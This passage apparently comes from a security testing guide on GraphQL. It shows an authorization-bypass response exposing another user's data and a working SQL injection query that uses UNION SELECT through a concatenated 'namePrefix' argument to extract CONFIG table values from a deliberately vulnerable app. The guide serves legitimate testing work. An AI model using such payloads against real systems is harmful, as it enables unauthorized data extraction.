 And the response:

```json
{
  "data": {
    "myInfo": {
      "id": 2,
      "name": "Benoit",
      "dogs": [
        {
          "name": "Babou"
        },
        {
          "name": "Baboune"
        },
        {
          "name": "Babylon"
        },
        {
          "name": "..."
        }
      ]
    }
  }
}
```

All of the Dogs in the list belong to Benoit, and not to the auth token owner. It's possible to perform this type of action when proper authorization enforcement is not implemented.

### Injection

GraphQL is the implementation of the API layer of an application, and as such, it usually forwards the requests to a back end API or the database directly. This allows you to utilize any underlying vulnerability such as SQL injection, command injection, cross-site scripting, etc. Using GraphQL just changes the entry point of the malicious payload.

You can refer to other scenarios within the OWASP testing guide to get some ideas.

GraphQL also has scalars, which are usually used for custom data types that do not have native data types, such as DateTime. These types of data do not have out-of-the-box validation, making them good candidates for testing.

#### SQL Injection

The example application is vulnerable by design in the query `dogs(namePrefix: String, limit: Int = 500): [Dog!]` since the parameter `namePrefix` is concatenated in the SQL query. Concatenating user input is a common malpractice of applications that can expose them to SQL injection.

The following query extracts information from the `CONFIG` table within the database:

```graphql
query sqli {
  dogs(namePrefix: "ab%' UNION ALL SELECT 50 AS ID, C.CFGVALUE AS NAME, NULL AS VETERINARY_ID FROM CONFIG C LIMIT ? -- ", limit: 1000) {
    id
    name
  }
}
```
